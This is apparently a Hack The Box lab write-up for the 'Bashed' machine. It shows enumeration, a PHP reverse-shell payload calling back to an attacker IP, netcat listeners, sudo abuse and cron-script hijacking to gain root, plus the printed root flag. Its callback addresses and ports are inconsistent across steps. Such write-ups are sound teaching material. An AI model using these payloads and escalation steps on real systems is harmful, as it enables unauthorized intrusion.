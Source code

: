 # Bashed
```
Difficulty: Easy
Operating System: Linux
Hints: True
```

#### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
|:---|:---|:---|:---|
| 1 | (Local) | Nmap Scan & Website Enumeration | Identified an Apache web server on port 80. The website hinted at a `phpbash` tool developed on the server. |
| 2 | (Web) | Directory Enumeration & RCE | Used `gobuster` to find the `/dev` directory. Discovered and accessed `phpbash.php` at `http://10.10.10.68/dev/phpbash.php`, which provided a web shell as the `www-data` user. |
| 3 | www-data | Reverse Shell | Upgraded the web shell to a proper reverse shell, gaining interactive access to the system as the `www-data` user. |
| 4 | www-data -> scriptmanager | `sudo` Abuse | Ran `sudo -l` and found that `www-data` could run any command as the `scriptmanager` user without a password. Used `sudo -u scriptmanager /bin/bash` to escalate privileges to the `scriptmanager` user. |
| 5 | scriptmanager -> root | Cron Job Manipulation | Found a directory `/scripts` owned by `scriptmanager`. Inside, there was a `test.py` script that was being executed by a cron job running as `root`. |
| 6 | root | Reverse Shell | Modified `test.py` to contain a reverse shell payload. The cron job executed the modified script as `root`, granting a root shell and access to `root.txt`. |



## Initial Enumeration
Running nmap scan (TCP) on the target shows the following
```
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-19 10:12 CET
Nmap scan report for 10.10.10.68
Host is up (0.040s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```
Here we can see that the running operating system is Ubuntu.  
Since this is the only port available let's dig deeper into it.  
Lets' start by poking around, when we hit the site we see a page containing:  
*phpbash helps a lot with pentesting. I have tested it on multiple different servers and it was very useful. I actually developed it on this exact server!*  
So, it seems like the creator of this box already uploaded a webshell for us, all we need to do is actually the location of this shell.
So, let's try to enumerate port 80 with gobuster and examine the results.   
```
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/server-status        (Status: 403) [Size: 299]
```
If we visit the [Arrexel GitHub Repo](https://github.com/Arrexel/phpbash) (URL disclosed inside the site), we can see that this webshell is called phpbash.php.  
So, let's go through all this directory and see where phpbash.php is located.  
as we can easilly discover phpbash is available by hitting http://10.10.10.68/dev/phpbash.php.  
Now we have accesso to this box as www-data.

## User
First thing first we want to update our existing webshell with a real reverse shell.  
Since we cannot execute the revershe shell directly from the prompt, let's download a file containing the following reverse shell into a file and then execute it:
```
<?php
$sock=fsockopen("10.10.16.41",1234);exec("/bin/sh -i <&3 >&3 2>&3");
?>
```
download this with wget in a writable folder and execute this via php, and as we can se we do get get a shell as www-data.
```
root@kali:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.10.68] 59562
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
Now that we are logged in as www-data, we can quickly check our capabilities.
First thing first, let's enumerate sudo.
```
www-data@bashed:/var/www/html/uploads$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```
Now we can easily escalate to scriptmanager and see if we can escalate privileges from there.
```
www-data@bashed:/var/www/html/uploads$ sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/www/html/uploads$
```

## Root
Now, since the name of this user seems to refer to a scripting user, let's find files owned by him.
```
scriptmanager@bashed:/var/www/html/uploads$ find / -user scriptmanager | grep -v proc                                      
find: /scripts                                      
/scripts/test.py                                          
'/root': Permission denied                          
find: /home/scriptmanager                           
/home/scriptmanager/.profile                        
/home/scriptmanager/.bashrc                         
/home/scriptmanager/.nano                           
/home/scriptmanager/.bash_history                   
/home/scriptmanager/.bash_logout
```
Now, if we switch to /scripts directory we can see a simple script ```test.py``` that write text to ```test.txt```.  
Now, if we inspect dates/permissions with a simple ls, we can see the following:
```
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Nov 19 01:47 test.txt
```
the file test.txt gets written every one minute and the owner/groop is root:root, so we can suppose that there is a cronjob that is writing test.txt each minute.  
If we edit test.py, we can set a python reverse shell, open a listener on our local machine and wait for the shell to pop up.  
```
root@kali:~/Documents/HTB/Boxes/Bashed# nc -lvnp 8083
listening on [any] 8083 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.68] 55988
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cc4f0afe3a1026d402ba10329674a8e2
```
